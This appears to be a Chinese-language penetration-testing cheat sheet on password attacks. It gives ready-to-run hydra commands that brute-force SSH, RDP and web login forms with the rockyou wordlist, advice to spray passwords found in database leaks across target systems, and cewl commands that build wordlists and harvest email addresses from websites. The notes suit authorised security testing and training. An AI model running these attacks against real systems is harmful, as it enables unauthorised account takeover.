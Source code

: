 # 获取权限

&nbsp;

## 密码破解

### 【用户登录服务攻击】

* **爆破ssh和rdp服务**
  * （1）解压rockyou文件
    ```bash
    gzip -d rockyou.txt.gz
    ```
  * （2）爆破ssh
    ```bash
    hydra -l admin -P /usr/share/wordlist/rockyou.txt ssh://192.168.2.200 -t 4
    ```
    >一般使用-t 4，进行4次连接后等待一段时间后再次连接，避免ssh锁定主机

  * （3）爆破rdp
    ```bash
    hydra -l admin -P ./rockyou.txt rdp://192.168.2.200
    ```
    一般爆破rdp的3389端口，如果其他端口可以指定
    我们用在数据库泄漏中发现的密码标识了两个用户名。我们应该一直尝试利用我们发现的每个明文密码，将它们喷洒到目标系统中。这可能会暴露出在多个系统中使用相同密码的用户。
  
* **爆破HTTP POST表单**
  * （1）爆破POST登录
    ```bash
    hydra -l user -P /rockyou.txt 192.168.2.20 http-post-form "/index.php:user=user&pass=^PASS^:Login failed.Invalid"
    ```
    
### 【密码生成工具】

* **cewl工具**
  * Cewl是一款采用Ruby开发的应用程序，你可以给它的爬虫指定URL地址和爬取深度，还可以添额外的外部链接，接下来Cewl会给你返回一个字典文件，你可以把字典用到类似John the Ripper这样的密码破解工具中。除此之外，Cewl还提供了命令行工具。
  * 默认生成
    ```bash
    cewl http://192.168.2.200/
    ```
    爬虫会爬取网页中的信息组成字典并且显示在屏幕上
    
  * 特定生成
    ```bash
    cewl -d 5 -m 8 http://abc.com --with-numbers -w wordlist.txt
    ```
    -d 代表爬取的深度，-m 密码字典每个密码的最小长度，-w 将输出存储为文件，--with-numbers 生成包含数字和字符的字典文件
    
  * 爬取email
    ```bash
    cewl http://abc.com -n -e
    ```
    -e选项来启用Email参数，并配合-n选项来隐藏工具在爬取网站过程中生成的密码字典
    